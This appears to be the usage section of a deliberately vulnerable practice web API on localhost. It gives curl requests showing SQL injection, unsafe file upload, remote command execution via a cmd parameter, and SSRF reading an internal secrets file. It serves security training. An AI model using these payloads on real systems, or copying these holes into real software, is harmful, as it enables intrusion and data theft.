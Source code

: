 🔐 Login
```bash
curl -i -X POST http://localhost:8000/api/auth/login \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=alice&password=alice123"
```

---

### 🆔 User Info (No IDOR :), Type your own id)

```bash
curl -i -G http://localhost:8000/api/users/{User_ID} \
-H "Authorization: Bearer <JWT>"
```

---

### 🔎 User Search (SQLi vulnerable)
```bash
curl -i -G http://localhost:8000/api/users/search \
-H "Authorization: Bearer <JWT>" \
--data-urlencode "field=username" --data-urlencode "keyword=' OR 1=1 --"
```

---
### 📁 File Upload (Unsafe mode)
```bash
curl -i -X POST http://localhost:8000/api/upload?unsafe=true \
-F "file=@evil.py" \
-H "Authorization: Bearer <JWT>"
```

---

### 💣 Remote Command Execution (RCE)
```bash
curl -i -G http://localhost:8000/api/cmd/exec \
-H "Authorization: Bearer <JWT>" \
--data-urlencode "cmd=whoami"
```

---

### 🛰️ SSRF (127.0.0.1:9000 is internal service that is not accessed by normal clients)
```bash
curl -i -G http://localhost:8000/api/proxy \
-H "Authorization: Bearer <JWT>" \
--data-urlencode "url=http://127.0.0.1:9000/read?name=secrets.txt"
```

---
